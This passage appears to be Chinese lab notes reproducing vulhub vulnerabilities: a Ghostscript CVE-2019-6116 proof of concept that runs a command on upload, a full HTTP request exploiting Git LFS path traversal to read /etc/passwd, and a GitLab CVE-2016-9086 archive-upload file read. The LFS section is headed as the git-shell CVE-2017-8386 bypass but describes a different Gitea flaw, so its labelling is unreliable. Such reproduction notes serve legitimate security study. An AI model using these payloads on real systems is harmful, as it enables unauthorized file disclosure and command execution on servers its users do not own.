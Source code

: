 ## **漏洞利用:**

**[POC](https://github.com/vulhub/vulhub/blob/master/ghostscript/CVE-2019-6116/poc.png)**:

> 说明：作者给出了POC，上传这个文件，即可执行`id > /tmp/success`

[](img/poc.png)

[](img/2.png)

# **[GIT-SHELL 沙盒绕过（CVE-2017-8386）](https://vulhub.org/#/environments/git/CVE-2017-8386/)**


## 漏洞复现：

> 打开gitea，找到刚才创建的公开项目，如vulhub/repo，发送如下数据包，添加一个Git LFS对象：

```
POST /vulhub/repo.git/info/lfs/objects HTTP/1.1
Host: your-ip:3000
Accept-Encoding: gzip, deflate
Accept: application/vnd.git-lfs+json
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 151

{
    "Oid": "....../../../etc/passwd",
    "Size": 1000000,
    "User" : "a",
    "Password" : "a",
    "Repo" : "a",
    "Authorization" : "a"
}
```


然后，访问
```
http://your-ip:3000/vulhub/repo.git/info/lfs/objects/......%2F..%2F..%2Fetc%2Fpasswd/sth
```

即可看到/etc/passwd已被成功读取：

#**[ Gitlab 任意文件读取漏洞（CVE-2016-9086）](https://vulhub.org/#/environments/gitlab/CVE-2016-9086/)**


## 漏洞复现：

将
**[test.tar.gz](https://github.com/vulhub/vulhub/blob/master/gitlab/CVE-2016-9086/test.tar.gz)**
上传，将会读取到`/etc/passwd`文件内容：
